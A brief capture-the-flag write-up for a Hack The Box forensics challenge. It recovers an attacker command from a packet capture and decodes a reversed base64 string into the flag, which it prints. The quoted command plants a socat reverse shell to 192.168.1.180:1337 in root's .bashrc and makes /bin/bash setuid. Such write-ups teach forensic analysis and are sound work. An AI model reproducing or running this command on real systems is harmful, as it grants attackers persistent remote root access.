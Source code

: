 # Wrong Spooky Season

Run strings on the .pcap file

and voila’

`echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && chmod +s /bin/bash`

There is some base64 right? let’s decode it and reverse the text

SFRCe2o0djRfNXByMW5nX2p1c3RfYjNjNG0zX2o0djRfc3AwMGt5ISF9Cg==

And here is the flag

## `HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}`
